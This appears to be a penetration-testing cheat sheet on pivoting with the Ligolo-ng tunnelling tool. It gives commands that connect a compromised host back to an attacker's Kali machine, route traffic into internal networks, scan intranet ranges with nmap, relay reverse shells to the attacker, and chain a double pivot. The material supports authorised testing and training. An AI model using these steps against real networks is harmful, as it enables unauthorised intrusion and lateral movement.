 # Port Forwarding
*   Setup
    *   Kali        → `ligstart()`
    *   Pivot     → `ligolo-agent -connect [KALI_IP]:11601 -ignore-cert`
    *   Kali        → `sudo ip route add [ROUTE] dev ligolo`
    *   Ligolo   → `session` → Select Number → `start`
*   Local Forwarding
    *   Route    → `240.0.0.1/32`
    *   Access   → `240.0.0.1:[PORT]` (Universal IP - Change Session to access other pivot's local ports)
*   Dynamic Forwarding
    *   Route → `[INTRANET_CIDR]`
        *   Generic    → `192.168.0.0/16`, `172.16.0.0/12`, `10.0.0.0/8`
        *   Linux        → `ip route`
        *   Windows → `route PRINT` → Check Router + Mask
    *   Nmap Scanning
        *   `sudo nmap -PE -sn  [INTRANET_CIDR]`
        *   `sudo nmap -PE -sCV [INTRANET_IP]`
    *   Shells / File Transfers
        *   Kali                             → `listener_add --addr 0.0.0.0:30000 --to [KALI_IP]:[KALI_PORT] --tcp` 
        *   Intranet Machine   → Request/Send Shell To → `[FIRST_PIVOT_INTRANET_IP]:30000`
    *   Double Pivoting
        *   Ligolo                 → Select Pivot Session + `listener_add --addr 0.0.0.0:11601 --to [KALI_IP]:11601 --tcp`
        *   Second Pivot   → `ligolo-agent -connect [FIRST_PIVOT_INTRANET_IP]:11601 -ignore-cert`
        *   Kali                     → `ligcreate() ligolo2` + `sudo ip route add [SECOND_INTRANET_CIDR] dev ligolo2`
        *   Ligolo                → `session` → Select Number → `start --tun ligolo2`